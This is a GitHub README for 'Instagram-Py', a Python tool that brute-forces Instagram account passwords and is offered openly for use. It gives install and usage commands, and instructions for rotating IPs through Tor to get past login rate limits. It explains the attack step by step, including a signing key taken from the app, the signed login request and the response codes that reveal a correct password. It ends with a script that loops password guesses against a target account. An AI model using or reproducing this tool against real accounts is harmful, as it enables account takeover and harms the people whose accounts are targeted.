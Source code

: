 ==============
 Instagram-Py 
==============

    | Instagram-py performs slick brute force attack on Instagram without any type of password limiting
    | and also resumes your attack in ease. 
    
    --DeathSec


.. image:: https://img.shields.io/github/issues/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/issues

.. image:: https://img.shields.io/github/forks/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/network
      
.. image:: https://img.shields.io/github/stars/deathsec/instagram-py.svg?style=flat-square
      :target: https://github.com/deathsec/instagram-py/stargazers

.. image:: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square   
      :target: https://raw.githubusercontent.com/deathsec/instagram-py/master/LICENSE

.. image:: https://img.shields.io/pypi/v/instagram-py.svg?style=flat-square
      :target: #



  
.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/v2.x.x/preview.gif

.. image:: http://forthebadge.com/images/badges/built-with-love.svg
      :target: #
.. image:: http://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg
      :target: #
      
.. image:: http://forthebadge.com/images/badges/made-with-python.svg
      :target: #
      

      
-------
 Why?
-------

| **I Actually** started this **project** for **proof of concept** that we can brute force **Instagram** forever.
| When I created the prototype and posted on **Twitter** , I got a **lot of people** who wanted a simple slick tool to execute 
| brute force attack on **Instagram** , So I thought why reinvent the wheel?....
| So I searched **Github** and found nothing worth value , some were fake or poorly engineered!
| And here it is **a Authentic brute force tool for Instagram**


------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!

 **See the 'Algorimthm' section down below for more hackery!**

-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Instagram-Py Scripting

  Craft your own python script which will embed into Instagram-Py for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts in the dump
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem

==============
 Installation
==============
---------------------------------
 Upgrading Instagram-Py with pip
---------------------------------

::

 $ sudo pip3 install instagram-py --upgrade


-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
  note :
  https://pypi.org/simple/pip/ #download pip if dosen't work and move to /usr/local/lib/your_python version/dist-packages/
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instagram-py --create-configuration # follow the steps... 

--------------------------------
    Configuring Instagram-Py
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to Instagram-Py**

::

 $ instagram-py --create-configuration
 $      # OR
 $ instagram-py -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instagram-py --create-configuration --default-configuration
 $      # OR
 $ instagram-py -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

**Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!**

**Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!**


::

 $ instagram-py -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         Instagram-Py Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instagram-py dump.
   --create-configuration, -cc
                         Create a Configuration file for Instagram-Py with
                         ease.
   --default-configuration, -dc
                         noconfirm for Instagram-Py Configuration Creator!
   --countinue, -c       Countinue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/deathsec/instagram-py



========================
 Instagram-Py Scripting
========================

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

Refer the Wiki to get full information about Instagram-Py Scripting , https://github.com/deathsec/instagram-py/wiki
Also look into the **examples** tree present in this repo , it contains simple example scripts.

**You Can Always View the Cracked Passwords Using this command!**

::

 $ instagram-py -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========
 Algorithm
===========

**Instagram-Py** uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who
wish to recreate this program in any other language.


**You can see this live when you run the tool in max verbosity**

::

 $ instagram-py -vvv -u instatestgod__ -pl password_list.lst

**You can also use Instagram-Py as a module , so that you can also use it in your script**

-------------
 What we do
-------------

**Step 1:** Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=** , where the **guid** get parameter is a random 32 character string.
The random 32 character string can be generator using python's simple **uuid library** , to be specific **v4** of **UUID**.
So finally we just have to request the url **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb** and get the cookie named **csrftoken** , if we observe the **response header** we
could see that our cookie only **expires** next **year** the same day. So by this we only have to make this request once
and can use it for a year! How vulnerable is that?... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png 
      :target: #


**Step 2:** Build a post request with Instagram's signature.

This part is **simple** but may be difficult to setup , first i need to get instagram's signature
which is only present in their free apk from google play , Remember our **Strength can be our Weakness**
, All i have to do reverse engineer the apk and find the signature, lets call it **ig_sig**.

::
 
 ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
 ig_version = 4

**Instagram** uses **HMAC Authentication** for login stuff, so lets use python's **hmac library**.
But first we have to build our body which will be encoded in json for it to actually sign with 
**ig_sig** , So the post **body** looks likes this...


::
 
 phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 _csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
 username   = <TARGET ACCOUNT>
 guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 device_id  = android-<RANDOM 16 CHARACTER STRING>
 password   = <PASSWORD TO TRY>
 login_attempt_count = 0


The above will be encoded to **JSON** , So to test the password we have to post the data to this url
**https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA>** .

**<SIGNED BODY>:** using **HMAC** , sign our json encoded data with **ig_sig** and return a hexa value.

**<URL ENCODED JSON DATA>:** the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as **USERNAME** and password with **PASSWORD** we simply request this
url **https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D** 

**Take a look** how I did it... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png


**Step 3:** With the json response and response code , we determine the password is correct or wrong.

if **We get response 200** then the login is success but if we get **response 400** , We inspect the
**json data** for clues if it is the **correct password or invalid request or too many tries**.
So we inspect the **message** from instagram json response!

**Message = Challenge Required** , then the password is correct but instagram got some questions so
we must wait until the user logs in and answer the question and if we are lucky they will not change
the password and we could login in later(**Most of the time people won't change the password!**)

**Message = The password you entered is incorrect.** , then the password is incorrect for sure , try
another.

**Message as something like word invalid in it then** , some other error so just try again, can happen
because of wordlist encoding error which i ignored because all the worldlist have encoding error!

**Message = Too many tries** , Time to change our ip and loop but we don't want to change our magic cookie

**Thats it you just hacked instagram with a very simple algorithm!**

==============
 Contribution
==============

.. image:: https://img.shields.io/github/contributors/deathsec/instagram-py.svg?style=flat-square


Contribute anything you can to this repo **(Issues | Pull request)** , help is much **appreciated**.

Please Refer `CONTRIBUTING`_ for more information on contributing! 

 .. _CONTRIBUTING: https://github.com/DeathSec/instagram-py/blob/master/.github/CONTRIBUTING.md

===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 



**Refer the Wiki to get full information about the api , https://github.com/deathsec/instagram-py/wiki**




=============
   License
=============

The MIT License,

Copyright (C) 2017 The Future Shell , DeathSec
